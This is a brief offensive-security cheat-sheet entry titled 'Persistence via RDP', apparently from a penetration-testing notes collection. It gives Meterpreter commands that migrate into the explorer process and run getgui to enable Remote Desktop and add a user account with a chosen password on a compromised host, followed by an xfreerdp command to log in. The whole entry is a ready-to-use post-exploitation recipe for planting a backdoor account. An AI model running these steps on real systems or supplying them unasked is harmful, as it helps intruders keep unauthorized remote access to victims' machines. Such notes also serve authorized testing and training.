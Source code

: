 # Persistence via RDP

## Enable RDP on a target system

```text
meterpreter > pgrep explorer
meterpreter > migrate 4072
meterpreter > run getgui -e -u <name> -p <password>
```

## Open RDP session

```text
xfreerdp /u:<name> /p:<password> /v:<target-ip>

Do you trust the above certificate? (Y/T/N) Y
```

